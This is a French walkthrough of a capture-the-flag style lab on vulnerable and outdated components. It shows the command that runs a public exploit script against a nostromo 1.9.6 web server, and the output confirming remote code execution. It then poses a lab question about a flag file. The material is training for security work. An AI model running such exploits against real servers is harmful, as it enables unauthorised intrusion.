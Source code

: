Maintenant on peut lancer le programme :

```bash
user@linux$ python2 47837.py 127.0.0.1 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Fri, 03 Feb 2023 04:58:34 GMT
Server: nostromo 1.9.6
Connection: close

uid=1001(_nostromo) gid=1001(_nostromo) groups=1001(_nostromo)
```

Boom ! Nous avons RCE. Il est important de noter que la plupart des scripts vous indiquent les arguments que vous devez fournir. Les développeurs d'exploits vous feront rarement lire des centaines de lignes de code juste pour comprendre comment utiliser le script.

### Task 16 - Vulnerable and Outdated Components - Lab

Maintenant on va pratiquer sur le port `84`

---

**What is the content of the /opt/flag.txt file?**
